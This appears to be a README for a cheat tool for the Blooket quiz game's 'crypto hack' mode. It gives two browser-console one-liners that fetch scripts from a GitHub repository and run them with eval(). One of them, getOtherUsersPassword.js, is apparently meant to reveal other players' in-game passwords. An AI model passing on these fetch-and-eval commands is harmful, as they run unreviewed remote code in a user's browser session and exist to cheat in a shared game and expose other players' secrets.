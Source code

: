 # crypto

This cheat only works in crypto hack game mode!

# getCrypto.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch("https://raw.githubusercontent.com/glixzzy/blooket-hack/main/crypto/getCrypto.js").then((res) => res.text().then((t) => eval(t)))
```

# getOtherUsersPassword.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch("https://raw.githubusercontent.com/glixzzy/blooket-hack/main/crypto/getOtherUsersPassword.js").then((res) => res.text().then((t) => eval(t)))
```

